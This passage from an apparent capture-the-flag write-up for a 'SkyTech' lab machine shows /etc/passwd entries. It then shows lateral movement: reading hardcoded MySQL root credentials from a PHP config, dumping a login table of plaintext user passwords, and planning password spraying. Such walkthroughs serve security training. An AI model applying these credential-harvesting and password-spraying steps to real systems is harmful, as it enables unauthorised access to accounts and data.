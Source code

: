 ```
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash
bash-4.2$ 



```

## Lateral movement
under config file i can see the password and username of the database;
```
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}



```
lets try and try to spray the passwords

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> use skytech
ERROR 1049 (42000): Unknown database 'skytech'
mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

mysql> 
```